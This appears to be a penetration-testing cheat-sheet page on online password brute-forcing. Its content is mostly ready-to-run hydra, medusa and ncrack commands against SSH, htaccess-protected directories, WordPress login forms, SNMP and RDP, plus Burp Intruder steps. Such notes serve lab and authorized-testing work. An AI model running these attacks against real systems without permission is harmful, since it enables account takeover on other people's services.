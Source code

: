 # Online password cracking

There are several tools specialized for bruteforcing online. There are several different services that are common for bruteforce. For example: VNC, SSH, FTP, SNMP, POP3, HTTP.

## Port 22 - SSH

```
hydra -l root -P wordlist.txt 192.168.0.101 ssh
hydra -L userlist.txt -P best1050.txt 192.168.1.103 -s 22 ssh -V
```

## Port 80/443 htaccess

You can password protect directories with apache pretty easily. Just configure the htaccess \(I exaplin this in the chapter on Common ports\).

It can then be brute forced like this:

```
medusa -h 192.168.1.101 -u admin -P wordlist.txt -M http -m DIR:/test -T 10
```

### Logins

Use Burp Suite

1. Intecept a login attempt.
2. Modify the user field with ^USER^ and the password field with ^PASS^
3. Grab the post request path \(/wp-login.php\)
4. Grab the modified login request \(last field in request\)

Should be able to populate like below

```
hydra -l username -P wordlist.txt TARGETIPADDRESS http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In
```

1. Send a fake request to the site and grab any text indicators of an invalid request \(_is incorrect_ in example below\)

2. Append to the end of the hydra syntax and close double quote

```
hydra -l username -P wordlist.txt TARGETIPADDRESS http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:is incorrect"

hydra -l admin -P /usr/share/wordlists/SecLists/Passwords/10k_most_common.txt TARGETIPADDRESS http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:is incorrect"
```

Use Burp **Pro** suite. \(Can be performed in free but is ridiculously slow\)

1. Intecept a login attempt.
2. Right-lick "Send to intruder". Select Sniper if you have only one field you want to bruteforce. If you for example already know the username. Otherwise select cluster-attack.
3. Select your payload, your wordlist.
4. Click attack.
5. Look for response-length that differs from the rest.

## Port 161 - SNMP

```
hydra -P wordlist.txt -v 102.168.0.101 snmp
```

## Port 3389 - Remote Desktop Protocol

For RDP we can use Ncrack.

```
ncrack -vv --user admin -P password-file.txt rdp://192.168.0.101
```



